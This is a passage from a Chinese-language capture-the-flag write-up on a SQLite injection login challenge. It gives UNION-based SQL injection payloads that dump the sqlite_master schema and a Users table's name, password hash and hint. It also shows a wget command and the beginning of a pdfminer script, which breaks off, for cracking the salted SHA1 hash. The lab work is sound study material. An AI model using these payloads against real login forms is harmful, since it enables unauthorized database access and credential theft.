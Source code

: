```
    if(isset($row['id'])){ 
            setcookie('name',' '.$row['name'], time() + 60, '/'); 
            header("Location: /"); 
            die(); 
    } 

} 

if(isset($_GET['debug'])) 
highlight_file('login.php'); 
?> 
```

注意这里是sqlite数据库,我一开始以为是mysql爆了半天啥都没有…  
usr=’ union select name, name from sqlite_master where type=‘table’–&pw=222

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019091721371178.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwODg0NzI3,size_16,color_FFFFFF,t_70)

```
usr=' union SELECT sql,sql FROM sqlite_master WHERE tbl_name = 'Users' and type = 'table'--+&pw=222
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917214246226.png)  
接下来开始查字段:

```
usr=' union select id, id from Users limit 1,1 --1
usr=' union select name, name from Users limit 1,1 --admin
usr=' union select pass, word from Users limit 1,1 --34b0bb7c304949f9ff2fc101eef0f048be10d3bd
usr=' union select hint, hint from Users limit 1,1 -- my fav word in my fav paper?!

```

改成limit 2,1就能查id为2的用户,最后一共3个用户,我也就不列出来了,  
这里的提示应该是说在fav paper中找到一个词+Salz之后sha1得到的值为34b0bb7c304949f9ff2fc101eef0f048be10d3bd,  
那首先要找到fav paper,不然就干脆每篇文章都搞过去  
看了一会儿文章我表示放弃…  
决定写个脚本把pdf里面的词都提出来,  
先用wget把pdf down下来:

```
wget ip -r -np -nd -A .pdf
```

一共30篇.  
这里借用网上大佬的脚本:

```
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
	return [i for i in os.listdir("./") if i.endswith("pdf")]
 
 
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
```